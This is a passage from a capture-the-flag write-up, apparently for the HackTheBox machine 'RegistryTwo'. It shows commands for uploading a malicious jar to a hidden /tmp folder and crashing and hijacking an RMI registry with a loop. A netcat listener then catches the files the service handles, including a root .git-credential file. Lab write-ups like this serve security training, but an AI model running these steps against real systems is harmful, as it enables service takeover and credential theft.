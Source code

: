 ```bash
scp ./NewRegistry.jar developer@webhosting.htb:/tmp/.hidden/NewRegistry.jar
```
But before we can run new registry we need to first setup a listener. I'm going to use netcat because honestly it doesn't matter what we respond to the service. We will need to loop it because otherwise we won't get keep our full log of handled files.

```bash
while true; do  nc -nvlp 3310; done
```

Next up we need to try and run our our new registry. This would not work because the port is already in use. I then decided to run it in a loop to brute force the server. At one point the already running service will crash. Run the following bash one-liner to crash the current RMI server and take over the service.

```bash
while true; do java -jar NewRegistry.jar; done
```

After a few moments we'll take over the RMI server which we can see that our console says **[+] Bound to 9002**

![RMI hijacking successfull](/assets/img/RegistryTwo/RegistryTwo_36.png)

Then while watching the files coming in on our netcat listener, after a while we would see a very interesting file. We would see another .git-credential file in the root directory as well. 

![Git credential file found ](/assets/img/RegistryTwo/RegistryTwo_35.png)
